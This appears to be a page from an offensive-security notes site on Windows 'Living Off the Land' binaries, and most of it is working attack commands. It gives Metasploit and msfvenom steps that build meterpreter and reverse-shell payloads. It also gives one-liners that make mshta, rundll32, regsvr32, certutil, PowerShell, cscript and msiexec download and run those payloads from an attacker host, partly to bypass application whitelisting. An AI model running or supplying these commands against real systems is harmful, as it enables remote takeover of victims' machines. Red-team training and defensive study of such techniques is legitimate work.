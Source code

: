 # ⭕ LOL Binaries

## <mark style="color:red;">General Concept</mark>

Living Off the Land (LOL) binaries are the native Microsoft binary applications that are preinstalled on windows systems and are almost always available for us to use. these can be as simple as the echo command or be used for more advanced stuff like downloading and executing files, converting exe to cert or other interesting things that an attacker can leverage to bypass defense mechanisms.

Generally speaking, when we want a bin/reverse shell we go looking for the specific binaries that can download and execute our payloads. [LOLBAS ](https://lolbas-project.github.io)is a great collection of all known LOL binaries and we can search the collection for binaries with specific capabilities that we want by using a slash '/' and the name of the capability in the search bar for example /execute will show us all binaries that can execute code or scripts.

### <mark style="color:orange;">For Download</mark>

{% embed url="https://lolbas-project.github.io/#/download" %}

### <mark style="color:orange;">For Execute</mark>

{% embed url="https://lolbas-project.github.io/#/execute" %}

## <mark style="color:red;">Example Tools</mark>

<mark style="color:green;">**Mshta.exe :**</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> Launch HTA attack via HTA Web Server of Metasploit

<mark style="color:green;">**Rundll32.exe :**</mark> Launch Rundll32 Attack via SMB Delivery of Metasploit

<mark style="color:green;">**Regsvr32.exe :**</mark> Launch Regsvr32 via Script Web Delivery of Metasploit

<mark style="color:green;">**Certutil.exe :**</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> Launch MSbuild Attack via Msfvenom C# shellcode

<mark style="color:green;">**Powershell.exe :**</mark>

* Launch cscript.exe via Powershell
* Launch Batch File Attack via Powershell

<mark style="color:green;">**Msiexec.exe :**</mark> Launch msiexec attack via msfvenom

## <mark style="color:red;">Mshta.exe</mark>

Mshta.exe runs the Microsoft HTML Application Host, the Windows OS utility responsible for running **HTA**( HTML Application) files. HTML files that we can run JavaScript or VBScript with. You can interpret these files using the Microsoft MSHTA.exe tool.

Metasploit contain the “HTA Web Server” module which generates malicious hta file. This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell. When a user navigates to the HTA file they will be prompted by IE twice before the payload is executed.

```
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

```
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```

## <mark style="color:red;">Rundll32.exe</mark>

Rundll32.exe is associated with Windows Operating System that allows you to invoke a function exported from a **DLL**, either 16-bit or 32-bit and store it in proper memory libraries.

**Launch Rundll32 Attack via SMB Delivery of Metasploit**

Metasploit also contain the “SMB Delivery” module which generates malicious dll file. This module serves payloads via an SMB server and provides commands to retrieve and execute the generated payloads. Currently supports DLLs and Powershell.

```
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
msf exploit(windows/smb/smb_delivery) > exploit
```

Now run the malicious code through rundll32.exe on the victim machine (vulnerable to RCE) to obtain meterpreter sessions.

```
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

## <mark style="color:red;">Regsvr32.exe</mark>

Regsvr32 is a command-line utility to register and unregister OLE controls, such as **DLLs** and ActiveX controls in the Windows Registry. Regsvr32.exe is installed in the %systemroot%\System32 folder in Windows XP and later versions of Windows.

_Syntax:_

```
Regsvr32 [/s][/u] [/n] [/i[:cmdline]] <dllname>
```

RegSvr32.exe has the following command-line options:

* /u – Unregister server
* /i – Call DllInstall passing it an optional \[cmdline]; when it is used with
* /u, it calls dll to uninstall
* /n – do not call DllRegisterServer; this option must be used with
* /s – Silent; display no message boxes

**Launch Regsvr32 via Script Web Delivery of Metasploit**

***

This module quickly fires up a web server that serves a payload. The provided command which will allow for a payload to download and execute. It will do it either specified scripting language interpreter or “squiblydoo” via regsvr32.exe for bypassing application whitelisting. The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection.

Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting. The signed Microsoft binary file, Regsvr32, is able to request a .sct file and then execute the included PowerShell command inside of it. Both web requests (i.e., the **.sct file and PowerShell** download/execute) can occur on the same port. “PSH (Binary)” will write a file to the disk, allowing for custom binaries to be served up to be downloaded/executed

```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 3
msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvhost 192.168.1.109
msf exploit (web_delivery)>exploit
```

```
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```

## <mark style="color:red;">Certutil.exe</mark>

Certutil.exe is a command-line program that is installed as part of Certificate Services. We can use this tool to execute our malicious **exe file** in the target machine to get a meterpreter session.

**Launch certutil Attack via Msfvenom**

Generate a malicious executable (.exe) file with msfvenom and **start multi/handler** to get the reverse shell of the victim’s machine.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
```

Now, to dump configuration information or shell.exe file files with certutil. you can follow below syntax:

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```

## <mark style="color:red;">**Batch File**</mark>

PowerShell allows the client to execute **bat file**_._

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
```

```
nc -nvlp 4444
```

Then execute the following command on the remote side to get netcat session.

```
// Some powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

## <mark style="color:red;">**Cscript**</mark>

PowerShell allows the client to execute **cscript.exe** to run **wsf, js** and **vbscript.**

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs
```

Then execute the following command on the remote side to get a meterpreter session.

```
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

## <mark style="color:red;">Msiexec.exe</mark>

As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by **MSI packages** for the installation of applications. The executable program that interprets packages and installs products is Msiexec.exe.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
msiexec /q /i http://192.168.1.109/1.msi
```
